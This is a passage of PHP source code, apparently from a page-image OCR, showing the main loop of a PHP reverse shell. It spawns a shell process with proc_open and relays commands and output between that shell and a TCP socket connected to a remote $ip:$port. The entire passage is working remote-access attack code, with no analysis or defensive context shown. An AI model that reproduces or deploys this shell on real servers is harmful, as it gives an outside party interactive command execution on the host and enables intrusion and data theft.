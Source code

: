 ```php
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
```